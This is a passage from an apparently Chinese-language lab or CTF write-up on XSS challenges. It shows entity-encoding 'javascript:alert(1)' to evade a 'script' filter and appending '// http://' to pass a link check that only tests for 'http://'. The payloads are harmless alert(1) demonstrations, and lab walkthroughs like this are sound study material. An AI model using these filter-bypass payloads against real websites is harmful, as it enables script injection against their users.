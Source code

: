 选择 Unicode 转 ASCII码进行计算

选择ASCII转UNICODE：[在线 Unicode 编码转换 | 菜鸟工具](https://www.jyshare.com/front-end/3602/)

结果为

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

直接payload



## 9.

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

提交显示不合法



没有思路，我先写一个正常的www.baidu.com

发现也不合法

会不会是前面要加http之类的呢？

```
http://www.baidu.com
```



发现结果正确，并且可以访问，看元素

```
<a href="http://www.baidu.com">友情链接</a>
```



那就下面进行测试

```
http://javascript:alert(1)
```

发现绕过script，试试上面的

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;// http://
```



通过



关键就是发现他是判断http://存在即可
